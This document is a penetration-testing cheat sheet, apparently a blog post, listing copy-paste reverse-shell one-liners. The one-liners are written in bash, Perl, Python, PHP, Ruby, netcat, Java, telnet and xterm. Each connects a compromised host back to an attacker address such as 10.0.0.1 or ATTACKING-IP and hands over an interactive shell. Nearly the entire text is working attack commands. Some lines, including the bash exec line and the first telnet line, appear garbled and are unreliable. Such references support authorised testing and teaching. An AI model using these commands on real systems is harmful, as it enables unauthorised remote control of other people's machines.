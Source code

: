 ```yaml
---
layout: post
categories: cheatsheets
published: true
---
```

# Summary
{:.no_toc}

* toc
{:toc}

# General

If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell.

If it’s not possible to add a new account / SSH key / .rhosts file and just log in, your next step is likely to be either trowing back a reverse shell or binding a shell to a TCP port.  This page deals with the former.

Your options for creating a reverse shell are limited by the scripting languages installed on the target system – though you could probably upload a binary program too if you’re suitably well prepared.

The examples shown are tailored to Unix-like systems.  Some of the examples below should also work on Windows if you use substitute “/bin/sh -i” with “cmd.exe”.

Each of the methods below is aimed to be a one-liner that you can copy/paste.  As such they’re quite short lines, but not very readable.

# Bash

Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):
~~~
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
~~~
~~~
exec /bin/bash 0&0 2>&0
~~~
# PERL

Here’s a shorter, feature-free version of the   perl-reverse-shell:

	perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i))))
    {open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'


# Python

This was tested under Linux / Python 2.7:

	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.0.0.1",1234));
    os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

	php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

If you want a .php file to upload, see the more featureful and robust php-reverse-shell.

# Ruby

	ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

~~~
nc -e /bin/sh 10.0.0.1 1234
~~~

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

# Java

	r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()

[Untested submission from anonymous reader]

# Telnet 

~~~
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
~~~
~~~
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
~~~

Remember to listen on 443 on the attacking machine also.

# xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

	xterm -display 10.0.0.1:1

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

	Xnest :1

You’ll need to authorise the target to connect to you (command also run on your host):

	xhost +targetip
